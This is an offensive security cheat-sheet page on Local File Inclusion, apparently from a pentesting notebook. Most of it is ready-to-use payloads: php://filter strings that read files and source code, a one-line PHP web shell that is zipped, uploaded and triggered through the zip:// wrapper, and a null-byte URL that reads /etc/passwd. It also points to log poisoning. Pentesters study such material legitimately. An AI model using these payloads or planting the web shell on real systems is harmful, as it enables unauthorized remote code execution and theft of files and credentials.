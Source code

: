 ```yaml
---
icon: file-import
description: Local File Inclusion
---
```


# LFI

{% hint style="info" %}
### <mark style="color:purple;">`PHP Filters & Wrappers`</mark>

#### <mark style="color:red;">`Filter Inclusion`</mark>

{% code title="Exfiltrate files" overflow="wrap" %}
```php
php://filter/read=convert.base64-encode/resource=<PATH_TO_THE_FILE>
```
{% endcode %}

{% code title="Exfiltrate the source code" %}
```php
php://filter/convert.base64-encode/resource=dashboard
```
{% endcode %}

#### <mark style="color:red;">`Remote Code Execution`</mark>

<mark style="color:purple;">The</mark> <mark style="color:orange;">**`zip://`**</mark> <mark style="color:purple;">stream wrapper can be used in specific attack scenarios to potentially execute malicious code.</mark>

* <mark style="color:purple;">First, create the</mark> <mark style="color:orange;">**`webshell`**</mark><mark style="color:purple;">:</mark>

```sh
echo '<?php system($_REQUEST['cmd']); ?>' > cmd.php
```

* <mark style="color:purple;">Second,</mark> <mark style="color:orange;">**`zip`**</mark> <mark style="color:purple;">the file:</mark>

```sh
zip shell.zip cmd.php
```

* <mark style="color:purple;">Third, upload the file and once is done, use the wrapper:</mark>

{% code overflow="wrap" %}
```php
zip://uploads/PATH/TO/FILE%23cmd&cmd=id
```
{% endcode %}
{% endhint %}

***

{% hint style="info" %}
### <mark style="color:purple;">The</mark> <mark style="color:orange;">`%00`</mark> <mark style="color:purple;">Null Terminator</mark>

<mark style="color:purple;">Is often used to</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**terminate a string prematurely,**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">effectively allowing attackers to manipulate the filename or file extension.</mark>

```url
http://10.10.10.80/index.php?op=/etc/passwd%00
```
{% endhint %}

***

{% hint style="info" %}
### <mark style="color:purple;">`Chaining`</mark>

* <mark style="color:purple;">If it's possible to access logs try</mark> [<mark style="color:orange;">**`Log Poisoning`**</mark>](log-poisoning.md)&#x20;
{% endhint %}

